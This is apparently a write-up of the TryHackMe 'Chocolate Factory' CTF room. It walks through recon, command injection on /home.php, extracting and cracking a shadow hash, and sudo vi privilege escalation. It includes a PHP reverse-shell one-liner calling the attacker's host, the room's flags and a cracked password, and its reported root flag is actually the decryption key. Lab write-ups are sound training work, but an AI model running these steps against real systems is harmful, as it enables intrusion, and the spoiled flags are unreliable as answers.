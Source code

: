 # Room: Chocolate factory

## General Info
- **Room link:** [Chocolate factory](https://tryhackme.com/room/chocolatefactory


## Description

This room was designed so that hackers can revisit the Willy Wonka's Chocolate Factory and meet Oompa Loompa

## Provided Files / Links
- [x] Target Machine IP (10.10.147.150)

## Enumeration / Recon

- Port Enumeration:
`nmap -sV -sC -Pn 10.10.147.150 -T5`

```
PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 3.0.3
22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))
100/tcp open  newacct?
106/tcp open  pop3pw?
109/tcp open  pop2?
110/tcp open  pop3?
111/tcp open  rpcbind?
113/tcp open  ident?
119/tcp open  nntp?
125/tcp open  locus-map?
```

- Directory Enumeration

`gobuster dir -u http://10.10.147.150 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt -t 10`

```
/index.html           (Status: 200) [Size: 1466]
/home.php             (Status: 200) [Size: 569]
/.htaccess            (Status: 403) [Size: 278]
/.                    (Status: 200) [Size: 1466]
/.html                (Status: 403) [Size: 278]
/.php                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/validate.php         (Status: 200) [Size: 93]
/.htm                 (Status: 403) [Size: 278]
/.htpasswds           (Status: 403) [Size: 278]
/.htgroup             (Status: 403) [Size: 278]
/wp-forum.phps        (Status: 403) [Size: 278]
/.htaccess.bak        (Status: 403) [Size: 278]
/.htuser              (Status: 403) [Size: 278]
/.htc                 (Status: 403) [Size: 278]
/.ht                  (Status: 403) [Size: 278]
/index.php.bak        (Status: 200) [Size: 273]
/.htaccess.old        (Status: 403) [Size: 278]
/.htacess             (Status: 403) [Size: 278]
```

I then went to /home.php and notice that there was an input field named "command".

I typed 'ls' and got a `key_rev_key` response.

I accessed /key_rev_key and downloaded the key. Then I used strings to find plain text information:

`strings key_rev_key`: **VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=**.

---

I checked for anonymous access in the ftp port and it worked. I found a gum_room.jpg file. I didn't find anything relevant with strings, file, exiftool but I was able to extract a b64.txt file with steghide (`steghide extract -sf gum_room.jpg`).
The file is a base64 encoded text and when decoded, I got usernames and passwords:

```
daemon:*:18380:0:99999:7:::
bin:*:18380:0:99999:7:::
sys:*:18380:0:99999:7:::
sync:*:18380:0:99999:7:::
games:*:18380:0:99999:7:::
man:*:18380:0:99999:7:::
lp:*:18380:0:99999:7:::
mail:*:18380:0:99999:7:::
news:*:18380:0:99999:7:::
uucp:*:18380:0:99999:7:::
proxy:*:18380:0:99999:7:::
www-data:*:18380:0:99999:7:::
backup:*:18380:0:99999:7:::
list:*:18380:0:99999:7:::
irc:*:18380:0:99999:7:::
gnats:*:18380:0:99999:7:::
nobody:*:18380:0:99999:7:::
systemd-timesync:*:18380:0:99999:7:::
systemd-network:*:18380:0:99999:7:::
systemd-resolve:*:18380:0:99999:7:::
_apt:*:18380:0:99999:7:::
mysql:!:18382:0:99999:7:::
tss:*:18382:0:99999:7:::
shellinabox:*:18382:0:99999:7:::
strongswan:*:18382:0:99999:7:::
ntp:*:18382:0:99999:7:::
messagebus:*:18382:0:99999:7:::
arpwatch:!:18382:0:99999:7:::
Debian-exim:!:18382:0:99999:7:::
uuidd:*:18382:0:99999:7:::
debian-tor:*:18382:0:99999:7:::
redsocks:!:18382:0:99999:7:::
freerad:*:18382:0:99999:7:::
iodine:*:18382:0:99999:7:::
tcpdump:*:18382:0:99999:7:::
miredo:*:18382:0:99999:7:::
dnsmasq:*:18382:0:99999:7:::
redis:*:18382:0:99999:7:::
usbmux:*:18382:0:99999:7:::
rtkit:*:18382:0:99999:7:::
sshd:*:18382:0:99999:7:::
postgres:*:18382:0:99999:7:::
avahi:*:18382:0:99999:7:::
stunnel4:!:18382:0:99999:7:::
sslh:!:18382:0:99999:7:::
nm-openvpn:*:18382:0:99999:7:::
nm-openconnect:*:18382:0:99999:7:::
pulse:*:18382:0:99999:7:::
saned:*:18382:0:99999:7:::
inetsim:*:18382:0:99999:7:::
colord:*:18382:0:99999:7:::
i2psvc:*:18382:0:99999:7:::
dradis:*:18382:0:99999:7:::
beef-xss:*:18382:0:99999:7:::
geoclue:*:18382:0:99999:7:::
lightdm:*:18382:0:99999:7:::
king-phisher:*:18382:0:99999:7:::
systemd-coredump:!!:18396::::::
_rpc:*:18451:0:99999:7:::
statd:*:18451:0:99999:7:::
_gvm:*:18496:0:99999:7:::
charlie:$6$CZJnCPeQWp9jpNx$khGlFdICJnr8R3JCjTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::
```

I then used John the Ripper to crack the hash: `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt charlie_hash.txt` and found **cn7824**.

---

I went back to /home.php and tested for RCE with the following payload:

`php -r '$sock=fsockopen("10.9.2.55",1337);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'`

I created a listener on my machine (`nc -nlvp 1337`) and was able to get a shell. I stabilized the shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

I found the user flag in charlie's home but I cannot read it yet. In his home directory, I found a 'teleport' file that contains his ssh private key.
I copied his private key in a id_rsa file in my machine and was able to login via ssh (`ssh -i id_rsa charlie@10.10.212.228`).

I was now able to read the user.txt flag: **flag{cd5509042371b34e4826e4838b522d2e}**.

---

I then checked for sudo privileges (`sudo -l`) and found:

```
(ALL : !root) NOPASSWD: /usr/bin/vi
```
I checked https://gtfobins.github.io/gtfobins/vi/ and found that I can get root access with: `sudo vi -c ':!/bin/sh' /dev/null`.

Now that I am root, I went to /root and found a root.py file:

```
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)
```

The message is encrypted with Fernet. The message is `gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ` and the key is `-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=`. 

I then got the root flag: **-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=**.